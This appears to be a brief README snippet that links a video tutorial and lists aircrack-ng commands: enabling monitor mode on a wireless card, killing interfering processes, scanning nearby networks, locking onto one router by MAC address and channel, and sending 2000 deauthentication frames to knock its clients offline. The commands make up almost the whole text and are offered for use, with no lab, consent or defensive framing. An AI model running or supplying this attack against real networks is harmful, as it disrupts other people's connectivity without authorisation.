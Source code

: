 Tutorial https://www.youtube.com/watch?v=RdVIlMABYVc

```
airmon-ng start wlan0
airmon-ng check kill
airmon-ng start wlan0
airodump-ng wlan0mon
airodump-ng --bssid xx:xx:xx:xx:xx:xx --channel 6 wlan0mon
aireplay-ng --deauth 2000 -a xx:xx:xx:xx:xx:xx wlan0mon
```

xx:xx:xx:xx:xx:xx is MAC address of the router
